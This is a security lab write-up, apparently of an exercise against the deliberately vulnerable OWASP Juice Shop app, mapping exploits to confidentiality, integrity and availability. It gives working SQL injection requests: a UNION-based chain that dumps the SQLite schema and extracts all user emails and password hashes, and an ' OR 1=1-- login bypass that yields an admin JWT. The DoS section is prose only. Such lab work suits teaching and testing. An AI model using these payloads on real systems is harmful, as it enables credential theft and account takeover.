








# Phase 2: Vulnerability Exploitation & CIA Triad Impact

## 1. Objective
Demonstrate the practical impact of identified vulnerabilities by mapping successful exploits directly against the three pillars of the CIA Triad: Confidentiality, Integrity, and Availability.

---

## 2. [C] Confidentiality: Data Exfiltration via UNION-based SQLi

* **Vulnerable Endpoint:** `GET /rest/products/search?q=`
* **Target Asset:** User authentication records table (`Users`)
* **Impact:** Complete exposure of user identifiers and password hashes to unauthenticated clients.

### Technical Methodology & Step-by-Step Execution

#### Step 0: Baseline Request
A normal search probe demonstrates the baseline JSON structure returned by the catalog search functionality.



---

#### Step 1: Column Count Determination & URL Encoding
To establish a valid `UNION` statement, the injected query must match the exact number of columns (9) and proper URL encoding (`+` or `%20`) must be applied to prevent `400 Bad Request` transport errors.

* **Failed Unencoded Request (HTTP 400):**
  ```http
  GET /rest/products/search?q=')) UNION SELECT 1, 2, 3, 4, 5, 6, 7, 8, 9-- HTTP/1.1
  ```
  

* **Properly Encoded Payload:**
  ```http
  GET /rest/products/search?q='))UNION+SELECT+1,+2,+3,+4,+5,+6,+7,+8,+9-- HTTP/1.1
  ```
* **Observation:** The application returned `200 OK` with a synthesized object showing numeric indices. Positions `2` and `3` directly mapped to string fields (`name` and `description`), indicating viable extraction channels.



---

#### Step 2: Database Schema Extraction (`sqlite_master`)
The SQLite system catalog was queried to discover database structure without prior assumptions.

* **Broad Table Enumeration:**
  ```http
  GET /rest/products/search?q='))UNION+SELECT+1,tbl_name,sql,4,5,6,7,8,9+FROM+sqlite_master+WHERE+type='table'-- HTTP/1.1
  ```
  

* **Targeted Table Definition (`Users`):**
  ```http
  GET /rest/products/search?q='))UNION+SELECT+1,tbl_name,sql,4,5,6,7,8,9+FROM+sqlite_master+WHERE+type='table'+AND+tbl_name='Users'-- HTTP/1.1
  ```

* **Extracted DDL Structure:**
  ```sql
  CREATE TABLE `Users` (
  `id` INTEGER PRIMARY KEY AUTOINCREMENT,
  `username` VARCHAR(255) DEFAULT '',
  `email` VARCHAR(255) UNIQUE,
  `password` VARCHAR(255),
  `role` VARCHAR(255)
  ...)
  ```
  This confirmed the existence of sensitive fields: `email` and `password`.

---

#### Step 3: Targeted Credential Exfiltration
With columns and schema verified, `Users.email` was mapped to index `2` and `Users.password` to index `3`.

* **Final Payload:**
  ```http
  GET /rest/products/search?q='))UNION+SELECT+1,email,password,4,5,6,7,8,9+FROM+Users-- HTTP/1.1
  ```
* **Result:** Unauthenticated extraction of all user records, complete with email identifiers and password hashes.



---

## 3. [I] Integrity: Authentication Bypass

* **Vulnerable Endpoint:** `POST /rest/user/login`
* **Target Functionality:** User authentication logic
* **Impact:** Administrative account takeover without valid credentials.

### Technical Execution
The login endpoint concatenates user input directly into the SQL query without parameter binding.

* **Payload:**
  ```json
  {
    "email": "' OR 1=1--",
    "password": "arbitrary_string"
  }
  ```
* **Result:** The condition `' OR 1=1` evaluates to `TRUE`, while `--` comments out the password verification clause. The application authenticates as the first administrative record (`admin@juice-sh.op`) and issues a valid JWT token.



---

## 4. [A] Availability: Service Disruption Analysis

* **Vector:** Resource exhaustion and destructive SQL operations.
* **Impact:** Denial of Service (DoS) and application unresponsiveness.

### Technical Analysis & Threat Modeling
* **Compute Exhaustion (ReDoS / Heavy Queries):** Unchecked input concatenation permits injecting complex recursive queries or heavy wildcard searches, causing CPU spikes and blocking the single-threaded Node.js event loop.
* **Data Destruction Scenario:** If database write permissions allow stacked queries or destructive commands, an attacker could truncate tables or corrupt relational integrity, taking the application offline.


